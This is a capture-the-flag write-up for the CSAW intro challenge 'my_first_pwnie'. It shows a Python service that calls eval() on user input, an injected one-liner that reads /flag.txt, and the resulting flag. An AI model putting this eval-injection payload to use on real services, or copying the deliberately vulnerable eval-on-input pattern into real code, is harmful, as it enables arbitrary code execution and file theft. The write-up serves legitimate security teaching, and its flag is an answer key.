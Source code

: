 # my_first_pwnie
## Category: Intro
## Author: ElykDeer

# Description

>You must be this 👉 high to ride.
>Note: flag is in /flag.txt

# Ressources

We are given a python file and netcat credentials to a server running the code.
Besides some comments in the file, we have this code:

>try:
>  response = eval(input("What's the password? "))
>  print(f"You entered `{response}`")
>  if response == "password":
>    print("Yay! Correct! Congrats!")
>    quit()
>except:
>  pass
>
>print("Nay, that's not it.")
 

In one of the comments, we are being told to execute arbitrary commands.      
What immidiatly comes to mind when reading the code, is the eval() function. This allows us to use a one-liner to get the flag.
The goal of our one-liner is to read /flag.txt.

After quite some tries of experimenting, I finally got the flag, by inputing:

>print(open('/flag.txt', 'r').read())

Explanation: This is a compacter version of the "usual" way to read a file in python:

>with open('/flag.txt', 'r') as file:
>       content = file.read()
>       print(content)

After using the one-liner, part of the output is the flag:

>csawctf{neigh______}

# Flag

>csawctf{neigh______}

